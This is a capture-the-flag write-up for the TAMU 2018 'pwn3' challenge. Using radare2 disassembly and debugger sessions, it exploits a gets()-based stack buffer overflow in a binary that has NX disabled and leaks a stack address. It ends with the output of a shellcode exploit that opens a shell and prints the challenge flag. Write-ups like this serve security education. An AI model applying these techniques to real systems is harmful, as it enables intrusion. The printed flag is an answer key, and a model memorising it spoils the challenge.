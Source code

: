 
# pwn3 write-up

INFO: remote server found at `nc pwn.ctf.tamu.edu 4323`.

----
The binary output includes a "random" value that looks interesting.
`Your random number 0xffcfd99a!`

By examining the binary using radare2 with a small radare2 profile file, see profile.rr2, it is easier to examine automate the stdin from a file called ./stdin.

vagrant@ctf-tools:~/ctf/tamu18/pwn3$ r2 -e dbg.profile=profile.rr2

[0x080483d0]> aaaa
[0x080483d0]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       false
pic      false
relro    partial

[0x080483d0]> ood
Process with PID 4101 started...
File dbg:///home/vagrant/ctf/tamu18/pwn3/pwn3  reopened in read-write mode
= attach 4101 4101
4101

[0xf76fe030]> dcu main
Continue until 0x08048522 using 1 bpsize
hit breakpoint at: 8048522

[0x08048522]> pdf
            ;-- main:
            ;-- eip:
┌ (fcn) sym.main 87
│   sym.main ();
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│           ; DATA XREF from 0x080483e7 (entry0)
│           ; DATA XREF from 0x000003e7 (sub.__gmon_start_3c0 + 39)
│           0x08048522      8d4c2404       ecx = [local_4h]            ; 4
│           0x08048526      83e4f0         esp &= 0xfffffff0
│           0x08048529      ff71fc         push dword [ecx - 4]
│           0x0804852c      55             push ebp
│           0x0804852d      89e5           ebp = esp
│           0x0804852f      51             push ecx
│           0x08048530      83ec04         esp -= 4
│           0x08048533      a128a00408     eax = dword sym.stdout      ; obj.stdout ; [0x804a028:4]=0xf7794ac0
│           0x08048538      6a00           push 0
│           0x0804853a      6a00           push 0
│           0x0804853c      6a02           push 2                      ; 2 ; size_t size
│           0x0804853e      50             push eax                    ; int mode
│           0x0804853f      e86cfeffff     sym.imp.setvbuf ()          ; int setvbuf(FILE*stream, char*buf, int mode, size_t size)
│           0x08048544      83c410         esp += 0x10
│           0x08048547      83ec0c         esp -= 0xc
│           0x0804854a      6834860408     push str.Welcome_to_the_New_Echo_application_2.0 ; 0x8048634 ; "Welcome to the New Echo application 2.0!" ; const char * s
│           0x0804854f      e83cfeffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x08048554      83c410         esp += 0x10
│           0x08048557      83ec0c         esp -= 0xc
│           0x0804855a      6860860408     push str.Changelog:____Less_deprecated_flag_printing_functions_____New_Random_Number_Generator ; 0x8048660 ; "Changelog:\n- Less deprecated flag printing functions!\n- New Random Number Generator!\n" ; const char * s
│           0x0804855f      e82cfeffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x08048564      83c410         esp += 0x10
│           0x08048567      e85fffffff     sym.echo ()
│           0x0804856c      b800000000     eax = 0
│           0x08048571      8b4dfc         ecx = dword [local_4h_2]
│           0x08048574      c9             leave 
│           0x08048575      8d61fc         esp = [ecx - 4]
└           0x08048578      c3             return

Function call at 0x08048567 looks interesting to sym.echo().

[0x08048522]> dcu sym.echo
Continue until 0x080484cb using 1 bpsize
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

hit breakpoint at: 80484cb

[0x080484cb]> pdf
            ;-- eip:
┌ (fcn) sym.echo 87
│   sym.echo ();
│           ; var int local_eeh @ ebp-0xee
│           ; CALL XREF from 0x08048567 (sym.main)
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           ebp = esp
│           0x080484ce      81ecf8000000   esp -= 0xf8
│           0x080484d4      83ec08         esp -= 8
│           0x080484d7      8d8512ffffff   eax = [local_eeh]
│           0x080484dd      50             push eax
│           0x080484de      6800860408     push str.Your_random_number__p ; 0x8048600 ; "Your random number %p!\n" ; const char * format
│           0x080484e3      e888feffff     sym.imp.printf ()           ; int printf(const char *format)
│           0x080484e8      83c410         esp += 0x10
│           0x080484eb      83ec0c         esp -= 0xc
│           0x080484ee      6818860408     push str.Now_what_should_I_echo ; 0x8048618 ; "Now what should I echo? " ; const char * format
│           0x080484f3      e878feffff     sym.imp.printf ()           ; int printf(const char *format)
│           0x080484f8      83c410         esp += 0x10
│           0x080484fb      83ec0c         esp -= 0xc
│           0x080484fe      8d8512ffffff   eax = [local_eeh]
│           0x08048504      50             push eax                    ; char *s
│           0x08048505      e876feffff     sym.imp.gets ()             ; char*gets(char *s)
│           0x0804850a      83c410         esp += 0x10
│           0x0804850d      83ec0c         esp -= 0xc
│           0x08048510      8d8512ffffff   eax = [local_eeh]
│           0x08048516      50             push eax                    ; const char * s
│           0x08048517      e874feffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x0804851c      83c410         esp += 0x10
│           0x0804851f      90             
│           0x08048520      c9             leave 
└           0x08048521      c3             return

sym.echo() contains a local variable (local_eeh) that is used in gets, shown at 0x080484fe, and later printed using puts, shown at 0x08048517.
The size is 0xee (238).

We rename it to input:
[0x080484cb]> afvn local_eeh input
[0x080484cb]> afvd
var input = 0xffd6fd1a  0x08d60000  ....

[0x080484cb]> pdf
...
│           0x080484d7      8d8512ffffff   eax = [input]
...
│           0x080484fe      8d8512ffffff   eax = [input]
│           0x08048504      50             push eax                    ; char *s
│           0x08048505      e876feffff     sym.imp.gets ()             ; char*gets(char *s)
│           0x0804850a      83c410         esp += 0x10
│           0x0804850d      83ec0c         esp -= 0xc
│           0x08048510      8d8512ffffff   eax = [input]
│           0x08048516      50             push eax                    ; const char * s
│           0x08048517      e874feffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x0804851c      83c410         esp += 0x10
│           0x0804851f      90
│           0x08048520      c9             leave 
└           0x08048521      c3             return

I created a pattern of length 300 using  `ragg2 -P 300 -r > stdin` and reopened the binary file.
Now I execute the binary until right after gets, at 0x0804850a.

[0x080484cb]> dcu 0x0804850a
Continue until 0x0804850a using 1 bpsize
Your random number 0xfff27efa!
Now what should I echo? hit breakpoint at: 804850a

[0x080484cb]> afvd
var input = 0xfff27efa  0x42414141  AAAB @eax ascii

How nice of them, the "random" number is the address at the stack to the local input variable.
Since the binary do not use NX security mechanisms and the buffer I created the pwnx.py, targeting a shellcode that execute on the stack.

(ctftools)vagrant@ctf-tools:~/ctf/tamu18/pwn3$ ./pwnx.py 
[*] '/home/vagrant/ctf/tamu18/pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$ ls
flag.txt
pwn3
$ cat flag.txt
gigem{n0w_w3_4r3_g377in6_s74r73d}
